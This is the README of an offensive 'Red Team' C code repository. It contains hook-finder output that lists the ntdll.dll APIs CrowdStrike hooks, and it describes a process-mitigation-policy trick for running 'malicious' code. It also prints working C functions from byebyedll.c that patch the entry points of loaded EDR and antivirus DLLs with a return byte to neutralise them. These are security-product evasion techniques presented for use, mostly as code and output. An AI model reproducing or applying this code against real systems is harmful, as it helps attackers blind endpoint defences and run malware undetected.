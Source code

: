 # RedTeamCCode
Red Team C code repo

# CrowdStrike hooked ntdll.dll APIs

```
C:\Users\dev\Desktop>hook_finder_64.exe C:\Windows\System32\ntdll.dll
Loading C:\Windows\System32\ntdll.dll
------------------------------------------
BASE                    0x00007FFAE0030000      MZÉ
PE                      0x00007FFAE00300E8      PE
ExportTableOffset       0x00007FFAE01812A0
OffsetNameTable         0x00007FFAE01838C0
Function Counts         0x97e (2430)
------------------------------------------
NtAllocateVirtualMemory is hooked
NtAllocateVirtualMemoryEx is hooked
NtDeviceIoControlFile is hooked
NtGetContextThread is hooked
NtMapViewOfSection is hooked
NtMapViewOfSectionEx is hooked
NtProtectVirtualMemory is hooked
NtQueryInformationThread is hooked
NtQueueApcThread is hooked
NtQueueApcThreadEx is hooked
NtReadVirtualMemory is hooked
NtResumeThread is hooked
NtSetContextThread is hooked
NtSetInformationProcess is hooked
NtSetInformationThread is hooked
NtSuspendThread is hooked
NtUnmapViewOfSection is hooked
NtUnmapViewOfSectionEx is hooked
NtWriteVirtualMemory is hooked
ZwAllocateVirtualMemory is hooked
ZwAllocateVirtualMemoryEx is hooked
ZwDeviceIoControlFile is hooked
ZwGetContextThread is hooked
ZwMapViewOfSection is hooked
ZwMapViewOfSectionEx is hooked
ZwProtectVirtualMemory is hooked
ZwQueryInformationThread is hooked
ZwQueueApcThread is hooked
ZwQueueApcThreadEx is hooked
ZwReadVirtualMemory is hooked
ZwResumeThread is hooked
ZwSetContextThread is hooked
ZwSetInformationProcess is hooked
ZwSetInformationThread is hooked
ZwSuspendThread is hooked
ZwUnmapViewOfSection is hooked
ZwUnmapViewOfSectionEx is hooked
ZwWriteVirtualMemory is hooked
------------------------------------------
Completed
```

# PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON.c

Is a proof-of-concept for the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` trick it will enforce the policy then spawn itself again the respawned process have the policy enforced allowing you run "malicious" code with the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` been set.

# byebyedll.c

Is a proof-of-concept that enforce the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` policy and also debug the child process (itself) and monitor Dlls that are loaded using Windows debugger APIs. It detect Dlls based on the path and patch it. The idea is to prevent EDR and AV Dlls loaded into your process from executing properly. This is a POC the blacklisted Dlls is set to `user32.dll`.  

The event is monitored using the `LOAD_DLL_DEBUG_EVENT` event. 

The DLL location is then retrieved using `event.u.UnloadDll.lpBaseOfDll`

The code is patched using the following functions:

```
VOID *GetEntryPointOffset(CHAR *start, DWORD dwSize, HANDLE hProc) {

    CHAR* mem = GlobalAlloc(GPTR, dwSize);
    DWORD dwBytesRead = 0;

    ReadProcessMemory(hProc, start, mem, dwSize, &dwBytesRead);

    DWORD dwBaseDLLInitializeOffset = *((DWORD*)mem + (0x120 / 4));

#ifdef DEBUG
    printf("dwBaseDLLInitializeOffset offset 0x%x\n", dwBaseDLLInitializeOffset);
#endif

    VOID *dwBaseDLLInitialize = (VOID*)start + dwBaseDLLInitializeOffset;

#ifdef DEBUG
    printf("dwBaseDLLInitialize offset 0x%p\n", dwBaseDLLInitialize);
#endif

    GlobalFree(mem);
    return dwBaseDLLInitialize;
}

VOID ModifyMem(CHAR *start, DWORD dwSize, HANDLE hProc) {
#ifdef DEBUG
    printf("Cleaning HANDLE 0x%p 0x%p length: %d\n", hProc, start, dwSize);
#endif
    VOID* EntryPoint = GetEntryPointOffset(start, dwSize, hProc);
    DWORD dwOut = 0;
    DWORD dwOld = 0;

#ifdef DEBUG
    printf("EntryPoint at 0x%p\n", EntryPoint);
#endif

    VirtualProtectEx(hProc, EntryPoint, 1, PAGE_READWRITE, &dwOld);
    WriteProcessMemory(hProc, EntryPoint, "\xc3", 1, &dwOut);
#ifdef DEBUG
    printf("Size of bytes written: %d\n", dwOut);
#endif
}
```

Verbose messages can be removed before the code is compiled by setting `DEBUG` as `FALSE`.

# Credit 
Mr.Un1k0d3r RingZer0 Team
